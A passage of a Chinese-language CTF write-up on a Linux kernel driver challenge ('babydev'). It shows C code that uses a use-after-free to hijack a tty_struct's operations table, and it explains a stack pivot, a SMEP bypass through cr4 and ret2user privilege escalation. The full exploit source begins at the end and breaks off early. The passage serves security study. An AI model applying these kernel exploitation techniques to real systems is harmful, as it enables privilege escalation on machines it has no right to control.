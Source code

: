 ```` c
	int (*poll_init)(struct tty_driver *driver, int line, char *options);
	int (*poll_get_char)(struct tty_driver *driver, int line);
	void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
	int (*proc_show)(struct seq_file *, void *);
} __randomize_layout;
````

我们来验证一下刚才任意函数执行的想法。

```` c
int f1=open("/dev/babydev",O_RDWR);
int f2=open("/dev/babydev",O_RDWR);
ioctl(f1,0x10001,0x2e0);
close(f1);

int fd_tty=open("/dev/ptmx",O_RDWR|O_NOCTTY);

for(int i=0;i<0x20;i++)
    fake_tty_operations[i]=0xffffffffffff0000+i;

read(f2,fake_tty_struct,0x20);
fake_tty_struct[3]=(size_t) fake_tty_operations;
write(f2,fake_tty_struct,0x20);

fake_tty_operations[7]=0xffffffffc00000f0;
char buf[8]={0x61};
write(fd_tty,buf,8);
````

我们将tty_operation中的write修改为babywrite的地址，并再babywrite处下断点，gdb调试。

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/2.png)

成功执行到了babywrite处，并且我们观察到rax的值刚好是我们伪造的tty_operetions的地址，如果将tty的write函数修改为mov rsp,rax不就可以实现栈迁移，并且构造rop链了吗？但是我们不能直接把rop链构造在伪造的tty_operations中，因为我们需要构造的rop比较长，有可能会覆盖write函数，因此我们在tty_operation中再栈迁移一次，将其迁移到我们的rop链中。

如果想要用rop来提权我们需要bypass smep保护，是否开启SMEP保护，是根据cr4的第20位来判断的，我们可以利用mov cr4,rdi等gadget来绕过这个保护。

我们的思路很清晰了。

+ 利用mov rsp，rax进行栈迁移
+ 利用mov cr4，rdi绕过SMEP
+ 利用ret2user技术提权

给出EXP

```c
/*
Author: Nopnoping
*/
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <pthread.h>

//use for save  environment of user space when to kernel space.
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov %cs,user_cs;"
            "mov %ss,user_ss;"
```